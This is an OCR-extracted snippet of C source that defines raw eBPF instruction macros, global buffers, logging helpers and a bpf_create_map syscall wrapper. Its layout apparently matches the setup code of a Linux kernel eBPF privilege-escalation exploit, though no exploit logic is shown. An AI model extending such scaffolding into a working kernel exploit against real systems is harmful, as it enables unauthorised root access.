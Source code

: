 ``` c  

#define BPF_JMP32_IMM(OP, DST, IMM, OFF) BPF_RAW_INSN(BPF_JMP32 | BPF_OP(OP) | BPF_K, DST, 0, OFF, IMM)

#define BPF_EXIT_INSN() BPF_RAW_INSN(BPF_JMP | BPF_EXIT, 0, 0, 0, 0)

#define BPF_LD_MAP_FD(DST, MAP_FD) BPF_LD_IMM64_RAW(DST, BPF_PSEUDO_MAP_FD,
MAP_FD)

#define BPF_LD_IMM64(DST, IMM) BPF_LD_IMM64_RAW(DST, 0, IMM)

#define BPF_ST_MEM(SIZE, DST, OFF, IMM) BPF_RAW_INSN(BPF_ST | BPF_SIZE(SIZE) | BPF_MEM, DST, 0, OFF, IMM)

#define BPF_LDX_MEM(SIZE, DST, SRC, OFF) BPF_RAW_INSN(BPF_LDX | BPF_SIZE(SIZE) | BPF_MEM, DST, SRC, OFF, 0)

#define BPF_STX_MEM(SIZE, DST, SRC, OFF) BPF_RAW_INSN(BPF_STX | BPF_SIZE(SIZE) | BPF_MEM, DST, SRC, OFF, 0)

int doredact = 0;  
#define LOG_BUF_SIZE 65536  
char bpf_log_buf[LOG_BUF_SIZE];  
char buffer[64];  
int sockets[2];  
int sockets2[2];  
int mapfd;  
int _mapfd[0x1000];  
size_t _offset = 0;  
void fail(const char *fmt, ...)  
{  
	va_list args;  
	va_start(args, fmt);  
	fprintf(stdout, "[!] ");  
	vfprintf(stdout, fmt, args);  
	va_end(args);  
	exit(1);  
}

void msg(const char *fmt, ...)  
{  
	va_list args;  
	va_start(args, fmt);  
	fprintf(stdout, "[*] ");  
	vfprintf(stdout, fmt, args);  
	va_end(args);  
}

int bpf_create_map(enum bpf_map_type map_type,  
		unsigned int key_size,  
		unsigned int value_size,  
		unsigned int max_entries,  
		unsigned int map_fd)  
{  
	union bpf_attr attr = {  
		.map_type = map_type,  
		.key_size = key_size,  
		.value_size = value_size,  
		.max_entries = max_entries,  
		.inner_map_fd = map_fd};

	return syscall(__NR_BPF, BPF_MAP_CREATE, &attr, sizeof(attr));  
}
```
